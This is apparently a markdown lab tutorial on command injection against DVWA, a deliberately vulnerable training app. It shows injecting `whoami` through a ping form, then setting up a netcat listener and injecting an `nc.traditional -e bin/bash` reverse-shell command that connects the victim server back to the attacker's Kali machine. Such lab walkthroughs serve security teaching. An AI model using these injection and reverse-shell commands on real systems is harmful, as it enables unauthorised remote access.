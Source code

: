 # Command Injection

# Overview
* Considering a website that is used to ping your ip-address/domain name for.eg. below is a website that would ping the entered ip-address/domain.
<img src="./images/01.sample_pinging_website.png"></img>


# Steps to Perform Command Injection
## Step 1: Login to OWASP 
* Login to OWASP and click on Damn Vulnerable Web Applications 
<img src="./images/02.Damn_vulnerable.png"></img>
* You would be re-directed to DVWA's login page. 
* Login to DVWA using **admin as username and password.**<br>
<img src="./images/03.dvwa_login_page.png"></img>
* Type in sample command such as `whoami` after a **dot and comma (.,)** as below <br>
<img src="./images/05.whoami_example.png"></img>

* In the result, you see the outputs of both commands i.e. **ping and whoami.**<br>
<img src="./images/04.command_injection_done.png"></img>

# Exploiting Command Injection
* We can try to make a connection with DVWA's machine to our Kali Linux Machine. This can be done using `netcat`
* `netcat` is used to connect 2 PCs
    * For our Kali linux, we need to set up **listening port,** e.g.12345
        * Type the following command `nc -lvp 12345`
        * -l is listening mode
        * -v is verbose mode
        * -p specifies port number<br>
        <img src="./images/05.listening_port.png"></img>
    *  Listening port would be used to listen to any connection coming to our PC.
 * Typing the following command would allow us to connect to victim's machine:<br>
 ```
 <your-ip-address>;nc.traditional -e bin/bash <ip-address-of-machine-to-which-you-want-to-connect>
 ```
* There would be **no output** once you perform this command line injection.<br><br>
<img src="./images/06.command_injection_02.png"></img>
* Once you submit, **go back to kali linux** and you would see the following output:<br><br>
<img src="./images/07.command_injection_output.png"></img>
* If you type the **command `whoami`,** you should see `www -data`<br><br>
<img src="./images/08.whoami.png"></img>



